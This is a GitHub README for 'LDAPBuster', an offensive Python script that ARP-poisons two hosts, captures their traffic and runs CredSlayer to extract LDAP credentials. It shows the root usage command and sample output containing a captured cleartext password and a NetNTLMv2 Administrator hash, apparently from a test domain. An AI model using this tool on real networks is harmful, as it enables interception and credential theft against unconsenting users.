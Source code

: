 # LDAPBuster
Script to automate the ARP poisoning and credential harvesting of network devices that utilize LDAP for authentication.

This script started as a way to automated the communication between firewalls and remote access appliances that use AD and LDAP for authentication but expended to allow the targetting of any two addresses and parse credentials passed between them. 

The script with take two inputs, and start an ARP poison attack on them to allow for a MITM. While this is happening, a capture is started to save all data that is captured during the MITM. This runs until you hit neter, in which the file is then saved, the poison stopped, and CredSlayer is then run on the output file automatically to extract all credentials and hashes available. 

Usage: 

> sudo python test.py --victim VICTIM --target TARGET --output OUTPUT

Output: 

```
LDAP Buster
By: Hann1bl3L3ct3r
Script to target two devices for ARP poisoning to capture authentication information which is saved to a file and parsed with CredSlayer.
Note: Must be run as ROOT
[*] IP forwarding enabled.
[*] Starting tcpdump to capture traffic into test.pcap...
[*] tcpdump started and writing to test.pcap
[*] Starting packet forwarding between victim and target...
[*] Press Enter to stop the capture and begin parse...
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
[*] Starting ARP poisoning...

3239 packets captured
3245 packets received by filter
0 packets dropped by kernel
[*] tcpdump stopped and saved to test.pcap.
[*] Starting Parse...
[*] ARP tables restored.
[*] Running CredSlayer on test.pcap...
[INFO] Processing packets in 'test.pcap'
[LDAP 192.168.1.106:33039 <-> 192.168.1.5:389] [FOUND] credentials found: cn=Test User,cn=Users,dc=TEST,dc=local -- Password#1
[INFO] Interesting things have been found but the CredSLayer wasn't able validate them: 
[LDAP 192.168.1.106:33038 <-> 192.168.1.5:389] [INFO]  name:  -- Administrator::TEST:019cef6365b05c2c:BA19872D0F64B8435D17CF3B95FE1709:010100000000000000030E4D34ABD401E3F54FBC526BD95A000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C0000000000 -- {'version': 'NETNTLMv2'}
[INFO] Processed in 16.095 seconds.
```

